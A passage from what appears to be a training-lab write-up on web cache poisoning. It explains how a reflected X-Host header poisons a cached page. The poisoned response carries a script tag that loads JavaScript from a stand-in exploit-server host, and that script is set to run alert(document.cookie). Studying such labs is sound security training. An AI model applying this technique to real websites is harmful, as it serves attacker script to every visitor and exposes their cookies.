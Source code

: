 Which means the value from the x-host header (which is exploit-id.exploit-server.net in this case) is reflected in the response. And because of X-Cache: miss we know that the cache is poisoned

And later when the victim makes the request to the `GET /`, they'll get the response from the poisoned cache which includes:
```bash
<script type="text/javascript" src="//exploit-id.exploit-server.net/resources/js/tracking.js"></script>
```
This will make the victim make a request to the exploit server

Lab specific: on the exploit server we need to change the response body to: alert(document.cookie) and the url endpoint (which is called File) to /resources/js/tracking.js

### Using web cache poisoning to exploit DOM-based vulnerabilities


